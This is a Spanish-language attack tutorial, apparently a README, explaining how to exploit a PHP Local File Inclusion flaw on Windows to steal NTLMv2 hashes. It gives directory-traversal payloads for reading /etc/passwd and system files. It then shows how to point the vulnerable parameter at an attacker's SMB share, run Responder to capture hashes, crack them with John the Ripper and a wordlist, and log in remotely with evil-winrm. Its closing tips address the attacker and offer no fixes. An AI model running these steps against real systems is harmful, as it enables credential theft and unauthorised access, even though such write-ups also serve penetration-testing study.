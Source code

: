 🕵️ Explotación LFI + SMB y Captura de Hashes NTLMv2
¡Aquí te explico cómo detectar y explotar una vulnerabilidad LFI para robar hashes NTLMv2 de un sistema Windows!

1. 🔍 Detectar LFI (Local File Inclusion)
Primero, busca parámetros en una web que incluyan archivos de forma dinámica, como este:

   http://target.com/index.php?page=home.html

   Ahora, intenta incluir archivos locales usando ../ (directory traversal):

   En Linux: http://target.com/index.php?page=../../../../etc/passwd 🐧

   En Windows: http://target.com/index.php?page=../../../../windows/system32/drivers/etc/hosts 💻

   Si ves el contenido del archivo, ¡la máquina es vulnerable! Confirma con otros archivos como     config.php o C:\Windows\win.ini.

2. 💡 Entendiendo include() en PHP
   La función include() ejecuta el archivo que le pasas. Si el parámetro vulnerable no tiene        filtros, puedes controlar qué archivo se incluye. Esto te permite leer archivos o, en ataques    más avanzados, conseguir RCE (Remote Code Execution).

3. 🎣 LFI → Captura de Hashes NTLMv2 vía SMB
   En sistemas Windows, puedes forzar al servidor a autenticarse hacia tu máquina atacante          usando una ruta SMB como esta:

   \\IP-ATACANTE\share\archivo

   Cuando Windows intente acceder a esa ruta, enviará un NetNTLMv2 hash con sus credenciales. Un    servidor SMB malicioso puede capturarlo.

4. 🛠️ Preparar la Máquina Atacante
   Configura Responder en tu máquina atacante para capturar los hashes.

   Abre una terminal y ejecuta: sudo responder -I <INTERFAZ>

   <INTERFAZ> es la interfaz que conecta con la víctima (usa ifconfig para revisarla).

   Esto levantará un servidor SMB falso. Ahora, solo tienes que modificar el parámetro LFI para     que apunte a tu servidor:

   http://target.com/index.php?page=\\IP-ATACANTE\share\archivo

   Nota: A veces necesitarás usar doble barra, así: http://target.com/index.php?page=//IP-          ATACANTE/share/archivo

5. 🎯 Resultado Esperado
   La víctima intentará acceder a tu recurso SMB, y Responder capturará el hash automáticamente,    mostrando algo así en pantalla:

   Administrator::VICTIMA:1122334455667788:HASH_NETNTLMv2

6. 🔓 Guardar y Crackear el Hash
   Copia el hash capturado a un archivo de texto (por ejemplo, hashes.txt) y usa una herramienta    como John The Ripper para crackearlo.

   john -w=/usr/share/wordlists/rockyou.txt hashes.txt

   ¡John probará contraseñas de la wordlist hasta encontrar la correcta! También puedes usar        Hashcat si prefieres usar la GPU.

7. 🔑 Uso de las Credenciales Obtenidas
   Una vez crackeado el hash, obtendrás la contraseña de un usuario, como Administrator. Puedes     usarla para acceder a servicios remotos:

   WinRM: evil-winrm -i <IP> -u <usuario> -p <password>

   También puedes probar SMB, RDP u otros servicios si están expuestos.

8. 🛡️ Recomendaciones y Buenas Prácticas
   Este método funciona solo en Windows cuando LFI permite rutas SMB.

   Documenta todo: la URL vulnerable, los parámetros que probaste, el hash que capturaste y las     herramientas que usaste.

   Nunca dependas de nombres de archivo específicos.

   Mantén tu máquina atacante siempre lista.
